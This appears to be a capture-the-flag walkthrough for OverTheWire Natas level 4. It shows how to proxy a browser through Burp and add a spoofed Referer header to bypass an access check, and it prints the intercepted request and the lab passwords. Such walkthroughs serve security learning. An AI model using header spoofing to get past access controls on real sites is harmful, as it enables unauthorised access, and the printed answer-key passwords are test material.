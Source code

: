 
---

## Natas Level 3 → Level 4 `use brup to intercept request, update Referer url.`

> Solution: intercept the packet, change the referrer url

Username: natas4
URL:      https://natas4.natas.labs.overthewire.org
Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

- “HTTP Referrer”.
    - set up firefox and brup
    - making sure proxy is set up for localhost @ 127.0.0.1.
        - Brup:
        - Proxy > Option >
    - set up Firefox network settings
        - allow Firefox to localhost proxy.
        - Menu > Preferences > Advanced > Network > Connection Settings > `Manual proxy configuration: HTTP Proxy: 127.0.0.1 Port:8080`

```html
"Access disallowed. You are visiting from "" while authorized users should come only from "https://natas5.natas.labs.overthewire.org/""
--------------------------------------------------------
goto https://natas4.natas.labs.overthewire.org/
press Refresh page
--------------------------------------------------------
brup > proxy > intercept > Raw:

GET / HTTP/1.1
GET /index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
Connection: close
# add this line
Referer: https://natas5.natas.labs.overthewire.org/
Upgrade-Insecure-Requests: 1
--------------------------------------------------------

"Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq"
```

Note: Once done, go back to Network Settings and select “Use System Proxy Settings” so you can have a normal connection, without it routing through Burp.

---

## Natas Level 4 → Level 5
